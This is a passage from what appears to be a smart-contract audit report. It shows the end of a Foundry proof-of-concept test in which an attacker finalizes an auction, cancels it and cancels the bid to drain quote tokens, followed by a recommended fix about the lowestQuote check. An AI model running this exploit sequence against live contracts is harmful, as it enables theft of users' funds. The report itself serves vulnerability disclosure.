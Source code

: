 ```
    // Will transfer unsold base amount + matched quote amount
    uint256[] memory bidIndices = new uint[](1);
    bidIndices[0] = 0;
    vm.warp(block.timestamp + 10);
    attacker_seller.finalize(bidIndices, 2**128-1, 2**128-1);
    // Cancel auction
    // Will transfer back sold base amount
    attacker_seller.cancelAuction();
    // Cancel bid
    // Will transfer back to buyer quoteAmount
    attacker_buyer.cancel();
    // Net profit of quoteAmount tokens of quoteToken
    (balance_quote, balance_base) = attacker_seller.balances();
    console.log("End seller balance: ", balance_quote, balance_base);
    (balance_quote, balance_base) = attacker_buyer.balances();
    console.log('End buyer balance: ', balance_quote, balance_base);
}
```

## Tools Used

Manual audit, foundry tests

## Recommended Mitigation Steps

Do not trust the value of `lowestQuote` when determining the finalize state, use a dedicated state variable for it.